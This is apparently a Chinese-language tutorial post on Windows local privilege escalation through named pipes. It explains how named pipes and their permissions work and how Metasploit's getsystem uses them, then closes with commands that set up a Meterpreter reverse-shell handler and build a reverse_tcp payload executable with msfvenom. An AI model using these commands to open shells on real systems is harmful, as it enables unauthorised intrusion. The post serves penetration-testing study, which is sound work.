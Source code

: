 ```yaml
---
title: windows本地提权之命名管道
categories:
- windows
tags:
- windows
---
```

windows本地提权之命名管道
===
参考资料:
- [windows-namedpipes-privilege-escalation](https://ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation)
- [what-happens-when-i-type-getsystem/](https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/)
- [https://metasploit.help.rapid7.com/docs/getsystem-command-work](https://metasploit.help.rapid7.com/docs/getsystem-command-work)
- [https://www.anquanke.com/post/id/87292](https://www.anquanke.com/post/id/87292)

视频教程地址：[https://www.bilibili.com/video/av89777352](https://www.bilibili.com/video/av89777352)
## 命名管道是什么
命名管道是一个机制，可以使得应用程序和本地或远程的进程进行通信。
创建命名管道的应用程序称为“命名管道服务器”，连接命名管道的称为“命名管道客户端”。
与socket类似，在服务器创建命名管道后，管道客户端可以与服务器进行连接。

---
命名管道的权限问题
- 连接由安全解释器控制
- ACL是命名管道默认的安全解释器，给本地系统用户，管理员，创建管道的拥有者完全的控制权限。
它也给了任何组的用户和匿名用户读权限。

命名管道默认使用的是SMB协议来通信。
## 列出所有命名管道
```
powershell
[System.IO.Directory]::GetFiles("\\.\pipe\")
```
## getsystem命令

```
...
Each method of elevation in `getsystem` relies on the process having certain properties or permissions. On Windows 7/8/8.1, `getsystem` will not work with any of these methods because the operating system has been patched to avoid these flaws.
在网上摘抄了一段资料
```
getsystem使用的就是命名管道提权的技术，该命令成功与否取决去进程的属性和权限。在win7 8 8.1 中，getsystem命令使用的三种方法提权方法都不会成功，因为系统已经避免了缺陷打上了补丁。

当我在win7 运行getsystem命令来提权的时候，提示`Operation failed: The environment is incorrect.`

成功提权需要，1.用户权限具有adminitrator，2. windows版本小于win7。

```
handler -H 192.168.1.100 -P 4444 -p windows/meterpreter/reverse_tcp

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o payload32.exe

whoami /groups
```

